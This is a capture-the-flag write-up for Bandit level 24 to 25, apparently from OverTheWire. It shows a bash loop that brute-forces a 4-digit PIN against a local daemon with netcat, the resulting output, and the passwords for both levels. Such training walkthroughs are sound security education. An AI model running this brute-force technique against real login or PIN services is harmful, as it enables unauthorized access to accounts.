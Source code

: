 # Level 24 &rarr; Level 25

At this level we are told that a daemon is listening on port 30002.
The daemon will provide us the password for level 25 if we give the daemon the password for level 24 and a secret 4-digit numeric pincode.
We are recommended to try brute-forcing the pincode.

First, we connect to the daemon with `nc localhost 30002` to check if we get any more info from the daemon:

```
bandit24@bandit:/tmp/myloop$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
```

We learn that the daemon expects the password for bandit24 and the secret pincode to be on a single line and separated by a space.

To brute-force the pincode, we write the following bash script:

```
bandit24@bandit:/tmp/myloop$ cat bruteforce.sh 
#!/bin/bash

password=UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
for pin in $(seq -w 0 9999)
do
	echo $password $pin
done | nc localhost 30002

```

The script stores the password for bandit24 in a variable.
Then it loops over the range 0000-9999 with the command `seq`.
The option `-w` ensures that the numbers have equal width by padding with leading zeroes.
This ensures that we input 4-digit pincodes.
For each pincode we pipe the password and the pincode to `nc localhost 30002`.

We run the script and retrieve the password for level 25:
```
bandit24@bandit:/tmp/myloop$ ./bruteforce.sh 
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
(...)
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

Exiting.
```

The password for level 25 is: uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
